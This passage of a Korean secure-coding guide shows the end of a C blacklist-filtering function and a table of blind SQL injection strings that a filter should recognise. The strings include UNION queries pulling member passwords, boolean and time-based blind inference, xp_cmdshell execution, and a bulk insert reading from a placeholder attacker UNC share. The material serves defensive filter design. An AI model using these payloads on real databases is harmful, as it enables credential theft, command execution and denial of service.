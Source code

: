 ```C
 while (regexec(&unsecurePattern, currentPos, 1, &mt, REG_NOTBOL) == 0)
 {
   strncat(buffer, currentPos, mt.rm_so);
   currentPos += mt.rm_eo;
 }
 strcat(buffer, currentPos);
 free(originalStr);
 return buffer;
}

```

## 6) 예제 [3] : Blind SQL injection 공격 구문<br>

특정한 코드를 선별해 막는 블랙리스트에 의거한 필터링 방식 사용시 다양한 형태의 SQL 함수 이용한 공격방법을 참고해야 함<br>
필터링 코드의 완성도는 블랙리스트를 만드는 작성자가 얼마나 공격 패턴을 많이 알고 있느냐에 따라 좌우됨
<br>
|공격 구문| 설명|
|:--:|:--:|
|IF (1=1) SELECT 'true' ELSE SELECT 'false'|위험한 구문 허용 |
|SELECT CHAR(0x66) |위험한 함수사용 허용 (다른 blind sql 공격구문에 자주 이용됨) |
|SELECT CONCAT(CHAR(75),CHAR(76),CHAR(77))|위험한 함수사용 허용|
|SELECT ASCII('a') |위험한 함수사용 허용|
|SELECT header, txt FROM news UNION ALL SELECT name, pass FROM members|위험한 구문 허용|
|INSERT INTO members(id, user, pass) VALUES(1, "+SUBSTRING(@@version,1,10) , 10) |시스템 정보 노출|
|exec master..xp_cmdshell 'dir' |위험한 명령어 사용(시스템 down)|
|SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>78--|True, False를 통해 데이터 값을 유추할 수 있음|
|IF (SELECT \* FROM login) BENCHMARK(1000000,MD5(1))|시스템 자원 소모 유도|
|WAITFOR DELAY '0:0:10'-- |시스템 자원 소모 유도 |
|MD5(), SHA1(), PASSWORD(), ENCODE(), COMPRESS(), ROW_COUNT(), SCHEMA(), VERSION() |위험한 함수 사용|
|bulk insert foo from '\\YOURIPADDRESS\C$\x.txt'|Windows UNC Share를 악용|
